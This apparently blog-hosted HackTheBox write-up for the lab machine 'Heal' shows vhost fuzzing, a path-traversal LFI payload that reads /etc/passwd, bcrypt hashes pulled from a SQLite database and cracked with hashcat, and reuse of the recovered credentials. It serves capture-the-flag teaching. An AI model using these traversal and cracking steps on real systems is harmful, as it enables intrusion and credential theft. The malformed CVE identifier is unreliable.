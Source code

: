 ```yaml
---
title: Heal
categories:
  - HackTheBox
tags: [linux, passwordcracking, lfi, cve]
media_subpath: /images/hackthebox_heal/
image:
  path: https://labs.hackthebox.com/storage/avatars/dcd5ef09ab764228c64385374ac744c1.png
---
```


# Summay
Heal is a medium difficulty machine which was only running a web server and a SSH service. The web server was running a `ruby on rails` application which was vulnerable to an [`LFI (Local File Inclusion)`](/theory/misc/file-inclusion#local-file-inclusion-lfi) and allowed us to read the database file. The database file contained a password hash which we were able to crack and use to login into the application as an administrator. The administrator account had access to a `limesurvey` application which was running on another subdomain. We were able to use the same credentials to login into this application and get access to the `limesurvey` application, which was vulnerable to [`CVE-2021-12-09`](https://www.exploit-db.com/exploits/50573), abusing the exploit we got a foothold on the machine as `www-data`. Reading the configuration files for the `limesurvey` application, we found the credentials for the database and the SSH user `ron` had reused those credentials. Using the credentials for the SSH user, we were able to login into the machine as `ron` and escalate our privileges to `root` by abusing the `consul` service which was running locally on port `8500` of the machine.

## Nmap  

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFWKy4neTpMZp5wFROezpCVZeStDXH5gI5zP4XB9UarPr/qBNNViyJsTTIzQkCwYb2GwaKqDZ3s60sEZw362L0o=
|   256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILMCYbmj9e7GtvnDNH/PoXrtZbCxr49qUY8gUwHmvDKU
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - Web
### Vhost Fuzz
Fuzzing the application for subdomains we encountered the `api` subdomain

```bash
ffuf -u http://heal.htb -H 'Host: FUZZ.heal.htb' -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -ic -c 
```
> Command breakdown:
> - `-u`: URL to fuzz
> - `-H`: Header to send with the request
> - `-w`: Wordlist to use for fuzzing
> - `-ic`: Ignore comments on wordlist
> - `-c`: Colorize the output
> - `-fs`: Filter the results by file size
{: .prompt-info}


![NON](file-20250514225133360.png)

We see that we are getting constant results with file size `178`, so we can filter the results from `ffuf` with the parameter `-fs`

```bash
ffuf -u http://heal.htb -H 'Host: FUZZ.heal.htb' -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -ic -c -fs 178 
```

![NON](file-20250514225032259.png)

We add this subdomain to our `/etc/hosts` file

```bash
cat /etc/hosts
10.10.11.46 api.heal.htb heal.htb
```

The web server is very sensitive for handling multiple requests, so our directory fuzzing must be done with fewer threads then normal. Using the `dirsearch` tool on the `api.heal.htb` host, we can find a reference to a `/profile` and `/download` endpoint. Upon interacting with both endpoints, I started receiving an invalid token error:

```bash
curl 'http://api.heal.htb/download.php'
{"errors":"Invalid token"}%
```

Analyzing the requests our browser makes after we login on the `heal.htb` application, we can see it is sending an `authorization` header in the request

![NON](file-20250514233552283.png)

By sending this header on our `download` request, we started getting a different error

```bash
curl 'http://api.heal.htb/download' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ'

{"errors":"Error downloading file: no implicit conversion of nil into String"}
```

It is probably downloading a file, so we started to fuzz for parameter names and try for an `LFI` vulnerability. Since the webserver was very sensitive about fuzzing the application, I tried to manually enumerate the parameter of the `download` endpoint with words like `file`, `name`, `archive`, `filename`, and I've found that `filename` was the correct parameter.

> If the server wasn't so sensitive about multiple requests, we could have enumerated this endpoint parameter using the command 
> ```bash
> ffuf -u 'http://api.heal.htb/download?FUZZ=../../../../../../../etc/passwd' -H 'Authorization: Bearer \<TOKEN\> -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -ic -c -t 10 -fr "no implicit conversion" -x http://127.0.0.1:8080```
{: .prompt-info} 

```bash
curl 'http://api.heal.htb/download?filename=../../../../../../../../etc/passwd' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
```

With that, we can read some files of the server. To better have some idea of important files inside the server, since we know it is running `ruby on rails`, we can spun up a `docker` instance of this service and manually enumerate the file structure


```bash
sqlite3 development.sqlite3 '.tables'

ar_internal_metadata  token_blacklists
schema_migrations     users

sqlite3 development.sqlite3 'PRAGMA table_info("users");'

0|id|INTEGER|1||1
1|email|varchar|0||0
2|password_digest|varchar|0||0
3|created_at|datetime(6)|1||0
4|updated_at|datetime(6)|1||0
5|fullname|varchar|0||0
6|username|varchar|0||0
7|is_admin|boolean|0||0

sqlite3 development.sqlite3 'select username, password_digest from users;' | sed 's/|/:/' | tee -a users

ralph:$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG
railoca:$2a$12$0xVKdMIa5mo.G8w669bs6uKkPbbo5ZFw9F7ldGk/.eHVAMI7/e8xu

hashcat -m 3200 users --username --show

ralph:$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369

```

With this password, we can't connect to ssh still, so we try connecting to the application instead and we are successfully logged with administrator privileges on the application

![NON](file-20250515002349947.png)

![NON](file-20250515002503423.png)

By looking at the survey tab, we are redirected to another subdomain

![NON](file-20250515012108944.png)

![NON](file-20250515012515676.png)


![NON](file-20250515012459876.png)

Ralph credentials were valid to login on admin dashboard

![NON](file-20250515013310409.png)

![NON](file-20250515014352897.png)

![NON](file-20250515014839844.png)

At `config.php` file at `/var/www/limesurvey/application/config`, we found some more credentials 

![NON](file-20250515015112930.png)

Trying the password for the ron user, we can see that he reused the password for the database

![NON](file-20250515015234113.png)

To get a more stable shell then `nc`, we established an `SSH`  connection.

![NON](file-20250515015341748.png)

With a simple bash script, we can curl every internal service to see which ones are an `http(s)` server

```bash
ss -lntp | awk '{print $4}' | while IFS= read host; do echo "curling host: $host"; curl -s "$host" |head -n1 ;done
```

![NON](file-20250515020026416.png)

Accessing the forwarded port, we have now access to a `consul` dashboard

![NON](file-20250515020149717.png)

![NON](file-20250515023935052.png)
